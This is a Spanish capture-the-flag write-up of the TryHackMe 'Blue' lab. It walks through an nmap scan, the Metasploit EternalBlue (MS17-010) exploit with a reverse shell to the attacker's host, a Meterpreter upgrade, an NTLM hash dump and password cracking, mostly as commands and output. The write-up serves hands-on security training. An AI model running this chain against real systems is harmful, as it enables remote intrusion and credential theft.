

Blue es una máquina de TryHackMe de nivel fácil, ideal para quienes se están iniciando en el pentesting de sistemas Windows. Su objetivo principal es demostrar la explotación de la vulnerabilidad crítica MS17-010, también conocida como EternalBlue, la cual fue utilizada en ataques reales como WannaCry.
Esta máquina es una excelente oportunidad para familiarizarse con:
#nmap -sC -sV -T5 --script vuln -vv 10.10.84.245
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-19 11:23 AST
NSE: Loaded 150 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 11:23
Completed NSE at 11:23, 10.02s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 11:23
Completed NSE at 11:23, 0.00s elapsed
Initiating Ping Scan at 11:23
Scanning 10.10.84.245 [4 ports]
Completed Ping Scan at 11:23, 0.39s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 11:23
Completed Parallel DNS resolution of 1 host. at 11:23, 0.03s elapsed
Initiating SYN Stealth Scan at 11:23
Scanning 10.10.84.245 [1000 ports]
Discovered open port 445/tcp on 10.10.84.245
Discovered open port 135/tcp on 10.10.84.245
Discovered open port 3389/tcp on 10.10.84.245
Discovered open port 139/tcp on 10.10.84.245
Discovered open port 49154/tcp on 10.10.84.245
Discovered open port 49159/tcp on 10.10.84.245
Discovered open port 49153/tcp on 10.10.84.245
Discovered open port 49152/tcp on 10.10.84.245
Discovered open port 49158/tcp on 10.10.84.245
Completed SYN Stealth Scan at 11:23, 3.23s elapsed (1000 total ports)
Initiating Service scan at 11:23
Scanning 9 services on 10.10.84.245
Service scan Timing: About 55.56% done; ETC: 11:25 (0:00:46 remaining)
Completed Service scan at 11:24, 63.20s elapsed (9 services on 1 host)
NSE: Script scanning 10.10.84.245.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 11:24
NSE Timing: About 99.82% done; ETC: 11:25 (0:00:00 remaining)
Completed NSE at 11:25, 60.79s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 11:25
NSE: [ssl-ccs-injection 10.10.84.245:3389] No response from server: ERROR
Completed NSE at 11:25, 8.83s elapsed
Nmap scan report for 10.10.84.245
Host is up, received echo-reply ttl 125 (0.26s latency).
Scanned at 2025-04-19 11:23:27 AST for 139s
Not shown: 991 closed tcp ports (reset)
PORT STATE SERVICE REASON VERSION
135/tcp open msrpc syn-ack ttl 125 Microsoft Windows RPC
139/tcp open netbios-ssn syn-ack ttl 125 Microsoft Windows netbios-ssn
445/tcp open microsoft-ds syn-ack ttl 125 Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3389/tcp open tcpwrapped syn-ack ttl 125
|_ssl-ccs-injection: No reply from server (TIMEOUT)
49152/tcp open msrpc syn-ack ttl 125 Microsoft Windows RPC
49153/tcp open msrpc syn-ack ttl 125 Microsoft Windows RPC
49154/tcp open msrpc syn-ack ttl 125 Microsoft Windows RPC
49158/tcp open msrpc syn-ack ttl 125 Microsoft Windows RPC
49159/tcp open msrpc syn-ack ttl 125 Microsoft Windows RPC
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false
| smb-vuln-ms17-010:
| VULNERABLE:
| Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
| State: VULNERABLE
| IDs: CVE:CVE-2017-0143
| Risk factor: HIGH
| A critical remote code execution vulnerability exists in Microsoft SMBv1
| servers (ms17-010).
|
| Disclosure date: 2017-03-14
| References:
| https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
| https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
Se ejecutó un escaneo intensivo con Nmap utilizando scripts de detección de vulnerabilidades (--script vuln) combinado con detección de versiones (-sV) y scripts por defecto (-sC). El host 10.10.84.245 se encuentra activo y expone múltiples puertos relevantes, entre ellos los puertos 135, 139 y 445, todos asociados a servicios de Windows RPC y SMB. Destaca también la presencia del puerto 3389 (RDP) y varios puertos dinámicos RPC (49152-49159), lo que sugiere un sistema Windows con múltiples servicios corriendo en segundo plano.
El análisis de scripts NSE confirmó que el sistema es vulnerable a la CVE-2017-0143 (MS17-010 - EternalBlue), una vulnerabilidad crítica que permite ejecución remota de código a través del servicio SMBv1. Esto lo convierte en un objetivo claro para explotación con herramientas como Metasploit o exploits manuales relacionados a EternalBlue.
La respuesta de los scripts a otras vulnerabilidades como smb-vuln-ms10-061, ms10-054, y CVE-2012-1182 fue negativa o con errores de acceso, lo que indica que no son vectores viables en este escenario específico. Sin embargo, la detección positiva de MS17-010 proporciona una puerta de entrada ideal para la fase de explotación.
#msfconsole
Metasploit tip: Use the resource command to run commands from a file
*Neutrino_Cannon*PrettyBeefy*PostalTime*binbash*deadastronauts*EvilBunnyWrote*L1T*Mail.ru*() { :;}; echo vulnerable*
*Team sorceror*ADACTF*BisonSquad*socialdistancing*LeukeTeamNaam*OWASP Moncton*Alegori*exit*Vampire Bunnies*APT593*
*QuePasaZombiesAndFriends*NetSecBG*coincoin*ShroomZ*Slow Coders*Scavenger Security*Bruh*NoTeamName*Terminal Cult*
*edspiner*BFG*MagentaHats*0x01DA*Kaczuszki*AlphaPwners*FILAHA*Raffaela*HackSurYvette*outout*HackSouth*Corax*yeeb0iz*
*SKUA*Cyber COBRA*flaghunters*0xCD*AI Generated*CSEC*p3nnm3d*IFS*CTF_Circle*InnotecLabs*baadf00d*BitSwitchers*0xnoobs*
*ItPwns - Intergalactic Team of PWNers*PCCsquared*fr334aks*runCMD*0x194*Kapital Krakens*ReadyPlayer1337*Team 443*
*H4CKSN0W*InfOUsec*CTF Community*DCZia*NiceWay*0xBlueSky*ME3*Tipi'Hack*Porg Pwn Platoon*Hackerty*hackstreetboys*
*ideaengine007*eggcellent*H4x*cw167*localhorst*Original Cyan Lonkero*Sad_Pandas*FalseFlag*OurHeartBleedsOrange*SBWASP*
*Cult of the Dead Turkey*doesthismatter*crayontheft*Cyber Mausoleum*scripterz*VetSec*norbot*Delta Squad Zero*Mukesh*
*x00-x00*BlackCat*ARESx*cxp*vaporsec*purplehax*RedTeam@MTU*UsalamaTeam*vitamink*RISC*forkbomb444*hownowbrowncow*
*etherknot*cheesebaguette*downgrade*FR!3ND5*badfirmware*Cut3Dr4g0n*dc615*nora*Polaris One*team*hail hydra*Takoyaki*
*Sudo Society*incognito-flash*TheScientists*Tea Party*Reapers of Pwnage*OldBoys*M0ul3Fr1t1B13r3*bearswithsaws*DC540*
*iMosuke*Infosec_zitro*CrackTheFlag*TheConquerors*Asur*4fun*Rogue-CTF*Cyber*TMHC*The_Pirhacks*btwIuseArch*MadDawgs*
*HInc*The Pighty Mangolins*CCSF_RamSec*x4n0n*x0rc3r3rs*emehacr*Ph4n70m_R34p3r*humziq*Preeminence*UMGC*ByteBrigade*
*TeamFastMark*Towson-Cyberkatz*meow*xrzhev*PA Hackers*Kuolema*Nakateam*L0g!c B0mb*NOVA-InfoSec*teamstyle*Panic*
*B0NG0R3* *Les Cadets Rouges*buf*
*Les Tontons Fl4gueurs* *404 : Flag Not Found*
*' UNION SELECT 'password* _________ __ *OCD247*Sparkle Pony*
*burner_herz0g* \_ ___ \_____ _______/ |_ __ _________ ____ *Kill$hot*ConEmu*
*here_there_be_trolls* / \ \/\__ \ \____ \ __\ | \_ __ \_/ __ \ *;echo"hacked"*
*r4t5_*6rung4nd4*NYUSEC* \ \____/ __ \| |_> > | | | /| | \/\ ___/ *karamel4e*
*IkastenIO*TWC*balkansec* \______ (____ / __/|__| |____/ |__| \___ > *cybersecurity.li*
*TofuEelRoll*Trash Pandas* \/ \/|__| \/ *OneManArmy*cyb3r_w1z4rd5*
*Astra*Got Schwartz?*tmux* ___________.__ *AreYouStuck*Mr.Robot.0*
*\nls*Juicy white peach* \__ ___/| |__ ____ *EPITA Rennes*
*HackerKnights* | | | | \_/ __ \ *guildOfGengar*Titans*
*Pentest Rangers* | | | Y \ ___/ *The Libbyrators*
*placeholder name*bitup* |____| |___| /\___ > *JeffTadashi*Mikeal*
*UCASers*onotch* \/ \/ *ky_dong_day_song*
*NeNiNuMmOk* ___________.__ *JustForFun!*
*Maux de tête*LalaNG* \_ _____/| | _____ ____ *g3tsh3Lls0on*
*crr0tz*z3r0p0rn*clueless* | __) | | \__ \ / ___\ *Phở Đặc Biệt*Paradox*
*HackWara* | \ | |__/ __ \_/ /_/ > *KaRIPux*inf0sec*
*Kugelschreibertester* \___ / |____(____ /\___ / *bluehens*Antoine77*
*icemasters* \/ \//_____/ *genxy*TRADE_NAMES*
*Spartan's Ravens* _______________ _______________ *BadByte*fontwang_tw*
*g0ldd1gg3rs*pappo* \_____ \ _ \ \_____ \ _ \ *ghoti*
*Les CRACKS*c0dingRabbits* / ____/ /_\ \ / ____/ /_\ \ *LinuxRiders*
*2Cr4Sh*RecycleBin* / \ \_/ \/ \ \_/ \ *Jalan Durian*
*ExploitStudio* \_______ \_____ /\_______ \_____ / *WPICSC*logaritm*
*Car RamRod*0x41414141* \/ \/ \/ \/ *Orv1ll3*team-fm4dd*
*Björkson*FlyingCircus* *PwnHub*H4X0R*Yanee*
*Securifera*hot cocoa* *Et3rnal*PelarianCP*
*n00bytes*DNC&G*guildzero*dorko*tv*42*{EHF}*CarpeDien*Flamin-Go*BarryWhite*XUcyber*FernetInjection*DCcurity*
*Mars Explorer*ozen_cfw*Fat Boys*Simpatico*nzdjb*Isec-U.O*The Pomorians*T35H*H@wk33*JetJ*OrangeStar*Team Corgi*
*D0g3*0itch*OffRes*LegionOfRinf*UniWA*wgucoo*Pr0ph3t*L0ner*_n00bz*OSINT Punchers*Tinfoil Hats*Hava*Team Neu*
*Cyb3rDoctor*Techlock Inc*kinakomochi*DubbelDopper*bubbasnmp*w*Gh0st$*tyl3rsec*LUCKY_CLOVERS*ev4d3rx10-team*ir4n6*
*PEQUI_ctf*HKLBGD*L3o*5 bits short of a byte*UCM*ByteForc3*Death_Geass*Stryk3r*WooT*Raise The Black*CTErr0r*
*Individual*mikejam*Flag Predator*klandes*_no_Skids*SQ.*CyberOWL*Ironhearts*Kizzle*gauti*
*San Antonio College Cyber Rangers*sam.ninja*Akerbeltz*cheeseroyale*Ephyra*sard city*OrderingChaos*Pickle_Ricks*
*Hex2Text*defiant*hefter*Flaggermeister*Oxford Brookes University*OD1E*noob_noob*Ferris Wheel*Ficus*ONO*jameless*
*Log1c_b0mb*dr4k0t4*0th3rs*dcua*cccchhhh6819*Manzara's Magpies*pwn4lyfe*Droogy*Shrubhound Gang*ssociety*HackJWU*
*asdfghjkl*n00bi3*i-cube warriors*WhateverThrone*Salvat0re*Chadsec*0x1337deadbeef*StarchThingIDK*Tieto_alaviiva_turva*
*InspiV*RPCA Cyber Club*kurage0verfl0w*lammm*pelicans_for_freedom*switchteam*tim*departedcomputerchairs*cool_runnings*
*chads*SecureShell*EetIetsHekken*CyberSquad*P&K*Trident*RedSeer*SOMA*EVM*BUckys_Angels*OrangeJuice*DemDirtyUserz*
*OpenToAll*Born2Hack*Bigglesworth*NIS*10Monkeys1Keyboard*TNGCrew*Cla55N0tF0und*exploits33kr*root_rulzz*InfosecIITG*
*superusers*H@rdT0R3m3b3r*operators*NULL*stuxCTF*mHackresciallo*Eclipse*Gingabeast*Hamad*Immortals*arasan*MouseTrap*
*damn_sadboi*tadaaa*null2root*HowestCSP*fezfezf*LordVader*Fl@g_Hunt3rs*bluenet*P@Ge2mE*
=[ metasploit v6.4.43-dev ]
+ -- --=[ 2484 exploits - 1279 auxiliary - 431 post ]
+ -- --=[ 1463 payloads - 49 encoders - 13 nops ]
+ -- --=[ 9 evasion ]
Metasploit Documentation: https://docs.metasploit.com/
[msf](Jobs:0 Agents:0) >> search ms17-010
Matching Modules
================
# Name Disclosure Date Rank Check Description
- ---- --------------- ---- ----- -----------
0 exploit/windows/smb/ms17_010_eternalblue 2017-03-14 average Yes MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
1 \_ target: Automatic Target . . . .
2 \_ target: Windows 7 . . . .
3 \_ target: Windows Embedded Standard 7 . . . .
4 \_ target: Windows Server 2008 R2 . . . .
5 \_ target: Windows 8 . . . .
6 \_ target: Windows 8.1 . . . .
7 \_ target: Windows Server 2012 . . . .
8 \_ target: Windows 10 Pro . . . .
9 \_ target: Windows 10 Enterprise Evaluation . . . .
10 exploit/windows/smb/ms17_010_psexec 2017-03-14 normal Yes MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
11 \_ target: Automatic . . . .
12 \_ target: PowerShell . . . .
13 \_ target: Native upload . . . .
14 \_ target: MOF upload . . . .
15 \_ AKA: ETERNALSYNERGY . . . .
16 \_ AKA: ETERNALROMANCE . . . .
17 \_ AKA: ETERNALCHAMPION . . . .
18 \_ AKA: ETERNALBLUE . . . .
19 auxiliary/admin/smb/ms17_010_command 2017-03-14 normal No MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
20 \_ AKA: ETERNALSYNERGY . . . .
21 \_ AKA: ETERNALROMANCE . . . .
22 \_ AKA: ETERNALCHAMPION . . . .
23 \_ AKA: ETERNALBLUE . . . .
24 auxiliary/scanner/smb/smb_ms17_010 . normal No MS17-010 SMB RCE Detection
25 \_ AKA: DOUBLEPULSAR . . . .
26 \_ AKA: ETERNALBLUE . . . .
27 exploit/windows/smb/smb_doublepulsar_rce 2017-04-14 great Yes SMB DOUBLEPULSAR Remote Code Execution
28 \_ target: Execute payload (x64) . . . .
29 \_ target: Neutralize implant . . . .
Interact with a module by name or index. For example info 29, use 29 or use exploit/windows/smb/smb_doublepulsar_rce
After interacting with a module you can manually set a TARGET with set TARGET 'Neutralize implant'
[msf](Jobs:0 Agents:0) >>
Al iniciar la consola de Metasploit (msfconsole) se realizó una búsqueda de módulos relacionados con la vulnerabilidad MS17-010, también conocida como EternalBlue. Metasploit devuelve una lista extensa de módulos que permiten diferentes vectores de ataque sobre sistemas Windows afectados por esta falla crítica.
El módulo principal identificado es exploit/windows/smb/ms17_010_eternalblue, que explota la vulnerabilidad de corrupción de memoria en el kernel de Windows a través del protocolo SMBv1. Este módulo es ideal para atacar sistemas Windows 7 y Windows Server 2008 R2, y es uno de los más utilizados para obtener acceso remoto como NT AUTHORITY\SYSTEM en máquinas sin parchear.
[msf](Jobs:0 Agents:0) >> use exploit/windows/smb/ms17_010_eternalblue
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(windows/smb/ms17_010_eternalblue) >> show options
Module options (exploit/windows/smb/ms17_010_eternalblue):
Name Current Setting Required Description
---- --------------- -------- -----------
RHOSTS yes The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-meta
sploit.html
RPORT 445 yes The target port (TCP)
SMBDomain no (Optional) The Windows domain to use for authentication. Only affects Windows Server 2008 R
2, Windows 7, Windows Embedded Standard 7 target machines.
SMBPass no (Optional) The password for the specified username
SMBUser no (Optional) The username to authenticate as
VERIFY_ARCH true yes Check if remote architecture matches exploit Target. Only affects Windows Server 2008 R2, W
indows 7, Windows Embedded Standard 7 target machines.
VERIFY_TARGET true yes Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2, Windows 7,
Windows Embedded Standard 7 target machines.
Payload options (windows/x64/meterpreter/reverse_tcp):
Name Current Setting Required Description
---- --------------- -------- -----------
EXITFUNC thread yes Exit technique (Accepted: '', seh, thread, process, none)
LHOST 192.168.101.12 yes The listen address (an interface may be specified)
LPORT 4444 yes The listen port
Exploit target:
Id Name
-- ----
0 Automatic Target
View the full module info with the info, or info -d command.
[msf](Jobs:0 Agents:0) exploit(windows/smb/ms17_010_eternalblue) >> set RHOSTS 10.10.84.245
RHOSTS => 10.10.101.253
[msf](Jobs:0 Agents:0) exploit(windows/smb/ms17_010_eternalblue) >> set LHOST 10.2.29.254
LHOST => 10.2.29.254
[msf](Jobs:0 Agents:0) exploit(windows/smb/ms17_010_eternalblue) >> set payload windows/x64/shell/reverse_tcp
payload => windows/x64/shell/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(windows/smb/ms17_010_eternalblue) >> run
[*] Started reverse TCP handler on 10.2.29.254:4444
[*] 10.10.84.245:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.84.245:445 - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.84.245:445 - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.84.245:445 - The target is vulnerable.
[*] 10.10.84.245:445 - Connecting to target for exploitation.
[+] 10.10.84.245:445 - Connection established for exploitation.
[+] 10.10.84.245:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.84.245:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.84.245:445 - 0x00000000 57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73 Windows 7 Profes
[*] 10.10.84.245:445 - 0x00000010 73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76 sional 7601 Serv
[*] 10.10.84.245:445 - 0x00000020 69 63 65 20 50 61 63 6b 20 31 ice Pack 1
[+] 10.10.84.245:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.84.245:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.84.245:445 - Sending all but last fragment of exploit packet
[*] 10.10.84.245:445 - Starting non-paged pool grooming
[+] 10.10.84.245:445 - Sending SMBv2 buffers
[+] 10.10.84.245:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.84.245:445 - Sending final SMBv2 buffers.
[*] 10.10.84.245:445 - Sending last fragment of exploit packet!
[*] 10.10.84.245:445 - Receiving response from exploit packet
[+] 10.10.84.245:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.84.245:445 - Sending egg to corrupted connection.
[*] 10.10.84.245:445 - Triggering free of corrupted buffer.
[*] Sending stage (336 bytes) to 10.10.101.253
[*] Command shell session 1 opened (10.2.29.254:4444 -> 10.10.84.245:49567) at 2025-04-19 17:17:56 -0400
[+] 10.10.84.245:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.84.245:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.84.245:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
Shell Banner:
Microsoft Windows [Version 6.1.7601]
-----
C:\Windows\system32>
Explotación exitosa de MS17-010 usando Metasploit (EternalBlue):
C:\Windows\system32>^Z
Background session 1? [y/N] y
[msf](Jobs:0 Agents:1) exploit(windows/smb/ms17_010_eternalblue) >> sessions
Active sessions
===============
Id Name Type Information Connection
-- ---- ---- ----------- ----------
1 shell x64/windows Shell Banner: Microsoft Windows [Version 6.1.7601] 10.2.29.254:4444 -> 10.10.84.245:49567 (10.10.84.245 )
-----
[msf](Jobs:0 Agents:1) exploit(windows/smb/ms17_010_eternalblue) >> use post/multi/manage/shell_to_meterpreter
[msf](Jobs:0 Agents:1) post(multi/manage/shell_to_meterpreter) >> show options
Module options (post/multi/manage/shell_to_meterpreter):
Name Current Setting Required Description
---- --------------- -------- -----------
HANDLER true yes Start an exploit/multi/handler to receive the connection
LHOST no IP of host that will receive the connection from the payload (Will try to auto detect).
LPORT 4433 yes Port for payload to connect to.
SESSION yes The session to run this module on
View the full module info with the info, or info -d command.
[msf](Jobs:0 Agents:1) post(multi/manage/shell_to_meterpreter) >> set SESSION 1
SESSION => 1
[msf](Jobs:0 Agents:1) post(multi/manage/shell_to_meterpreter) >> exploit
[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.2.29.254:4433
[*] Post module execution completed
[msf](Jobs:1 Agents:1) post(multi/manage/shell_to_meterpreter) >>
[*] Sending stage (203846 bytes) to 10.10.84.245
[*] Meterpreter session 2 opened (10.2.29.254:4433 -> 10.10.84.245:49577) at 2025-04-19 17:37:44 -0400
[*] Stopping exploit/multi/handler
[msf](Jobs:0 Agents:2) post(multi/manage/shell_to_meterpreter) >> sessions
Active sessions
===============
Id Name Type Information Connection
-- ---- ---- ----------- ----------
1 shell x64/windows Shell Banner: Microsoft Windows [Version 6.1.760 10.2.29.254:4444 -> 10.10.84.245:49567 (10.10.84
1] ----- .245)
2 meterpreter x64/windows NT AUTHORITY\SYSTEM @ JON-PC 10.2.29.254:4433 -> 10.10.84.245:49577 (10.10.84
.245)
[msf](Jobs:0 Agents:2) post(multi/manage/shell_to_meterpreter) >>
Upgrade de shell reversa a sesión Meterpreter:
Después de obtener una shell básica sobre el host comprometido mediante el exploit MS17-010, se procedió a escalar el acceso a una sesión Meterpreter, mucho más potente y versátil para tareas de post-explotación.
[msf](Jobs:0 Agents:2) post(multi/manage/shell_to_meterpreter) >> sessions 2
[*] Starting interaction with 2...
(Meterpreter 2)(C:\Windows\system32) >
Tras completar el upgrade exitoso de shell a Meterpreter, se procede a interactuar con la nueva sesión, abriendo así la puerta a múltiples funcionalidades avanzadas de post-explotación.
(Meterpreter 2)(C:\Windows\system32) > ps
Process List
============
PID PPID Name Arch Session User Path
--- ---- ---- ---- ------- ---- ----
0 0 [System Process]
4 0 System x64 0
100 696 svchost.exe x64 0 NT AUTHORITY\SYSTEM
352 488 taskeng.exe x64 0 NT AUTHORITY\SYSTEM C:\Windows\system32\taskeng.exe
416 4 smss.exe x64 0 NT AUTHORITY\SYSTEM \SystemRoot\System32\smss.exe
488 696 svchost.exe x64 0 NT AUTHORITY\SYSTEM
548 540 csrss.exe x64 0 NT AUTHORITY\SYSTEM C:\Windows\system32\csrss.exe
596 540 wininit.exe x64 0 NT AUTHORITY\SYSTEM C:\Windows\system32\wininit.exe
608 588 csrss.exe x64 1 NT AUTHORITY\SYSTEM C:\Windows\system32\csrss.exe
648 588 winlogon.exe x64 1 NT AUTHORITY\SYSTEM C:\Windows\system32\winlogon.exe
684 820 WmiPrvSE.exe
696 596 services.exe x64 0 NT AUTHORITY\SYSTEM C:\Windows\system32\services.exe
704 596 lsass.exe x64 0 NT AUTHORITY\SYSTEM C:\Windows\system32\lsass.exe
712 596 lsm.exe x64 0 NT AUTHORITY\SYSTEM C:\Windows\system32\lsm.exe
820 696 svchost.exe x64 0 NT AUTHORITY\SYSTEM
888 696 svchost.exe x64 0 NT AUTHORITY\NETWORK SERVICE
936 696 svchost.exe x64 0 NT AUTHORITY\LOCAL SERVICE
1004 648 LogonUI.exe x64 1 NT AUTHORITY\SYSTEM C:\Windows\system32\LogonUI.exe
1044 696 svchost.exe x64 0 NT AUTHORITY\LOCAL SERVICE
1164 696 svchost.exe x64 0 NT AUTHORITY\NETWORK SERVICE
1292 696 spoolsv.exe x64 0 NT AUTHORITY\SYSTEM C:\Windows\System32\spoolsv.exe
1328 696 svchost.exe x64 0 NT AUTHORITY\LOCAL SERVICE
1392 696 amazon-ssm-agent.e x64 0 NT AUTHORITY\SYSTEM C:\Program Files\Amazon\SSM\amazon-
xe ssm-agent.exe
1468 696 LiteAgent.exe x64 0 NT AUTHORITY\SYSTEM C:\Program Files\Amazon\XenTools\Li
teAgent.exe
1604 696 Ec2Config.exe x64 0 NT AUTHORITY\SYSTEM C:\Program Files\Amazon\Ec2ConfigSe
rvice\Ec2Config.exe
1676 1292 cmd.exe x64 0 NT AUTHORITY\SYSTEM C:\Windows\System32\cmd.exe
1880 548 conhost.exe x64 0 NT AUTHORITY\SYSTEM C:\Windows\system32\conhost.exe
1948 696 svchost.exe x64 0 NT AUTHORITY\NETWORK SERVICE
2052 696 sppsvc.exe x64 0 NT AUTHORITY\NETWORK SERVICE
2064 820 WmiPrvSE.exe x64 0 NT AUTHORITY\SYSTEM C:\Windows\system32\wbem\wmiprvse.e
xe
2276 696 mscorsvw.exe x86 0 NT AUTHORITY\SYSTEM C:\Windows\Microsoft.NET\Framework\
v4.0.30319\mscorsvw.exe
2280 696 mscorsvw.exe x64 0 NT AUTHORITY\SYSTEM C:\Windows\Microsoft.NET\Framework6
4\v4.0.30319\mscorsvw.exe
2356 696 svchost.exe x64 0 NT AUTHORITY\LOCAL SERVICE
2476 2284 powershell.exe x64 0 NT AUTHORITY\SYSTEM C:\Windows\System32\WindowsPowerShe
ll\v1.0\powershell.exe
2560 696 vds.exe x64 0 NT AUTHORITY\SYSTEM
2648 696 svchost.exe x64 0 NT AUTHORITY\SYSTEM
2664 548 conhost.exe x64 0 NT AUTHORITY\SYSTEM C:\Windows\system32\conhost.exe
2704 696 SearchIndexer.exe x64 0 NT AUTHORITY\SYSTEM
3004 2276 mscorsvw.exe x86 0 NT AUTHORITY\SYSTEM C:\Windows\Microsoft.NET\Framework\
v4.0.30319\mscorsvw.exe
3040 696 TrustedInstaller.e x64 0 NT AUTHORITY\SYSTEM
xe
Desde la consola de Meterpreter, se lanza el comando ps para listar todos los procesos en ejecución. Esto es clave para identificar procesos críticos, contextos de usuario, y posibles puntos para migración o persistencia.
(Meterpreter 2)(C:\Windows\system32) > migrate 652
[*] Migrating from 2928 to 652...
[*] Migration completed successfully.
(Meterpreter 2)(C:\Windows\system32) > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
(Meterpreter 2)(C:\Windows\system32) >
Resultados:
Hashes extraidos:

Me dirigí a CrackStation con el objetivo de descifrar el hash NTLM obtenido anteriormente del usuario Jon. El hash extraído tras ejecutar hashdump fue:
ffb43f0de35be4d9917ac0cc8ad57f8d
Lo introduje en el campo correspondiente del sitio, y este devolvió exitosamente la contraseña en texto plano:
alqfna22
Con esta contraseña ya contábamos con acceso total al sistema, lo cual nos permitió completar con éxito los objetivos de la máquina. ✅